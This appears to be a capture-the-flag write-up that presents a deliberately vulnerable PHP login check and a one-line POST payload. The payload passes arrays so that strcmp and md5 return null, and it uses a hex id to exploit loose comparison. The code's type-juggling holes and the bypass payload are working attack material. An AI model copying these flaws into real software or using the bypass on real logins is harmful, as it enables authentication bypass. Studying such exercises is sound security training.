 # Challenge
```php
<?php
    if(isset($_POST['login']))
     {
        if(isset($_POST['user']))
        {
            if(@strcmp($_POST['user'],$USER))//USER是被隐藏的复杂用户名
            {
                die('user错误！');
            }
        }
        if (isset($_POST['name']) && isset($_POST['password']))
        {
            if ($_POST['name'] == $_POST['password'] )
            {
                die('账号密码不能一致！');
            }
            if (md5($_POST['name']) === md5($_POST['password']))
            {
                if(is_numeric($_POST['id'])&&$_POST['id']!=='72' && !preg_match('/\s/', $_POST['id']))
                {
                        if($_POST['id']==72)
                            die("flag{xxxxxxxxxxxxx}");
                        else
                            die("ID错误2！");
                }
                else
                {
                    die("ID错误1！");
                }
            }
            else
                die('账号密码错误！');
        }
     }
 ?>
```
# Solution 

payload

POST

```
login=1&user[]=1&name[]=2&password[]=1&id=0x48
```



# Refference
+ [CCTF-2017-WEB350](http://kafkatao.me/2017/07/23/4.html)
+ https://bkfish.gitee.io/2019/12/03/php%E4%B8%AD%E7%A5%9E%E7%A7%98%E7%9A%84md5/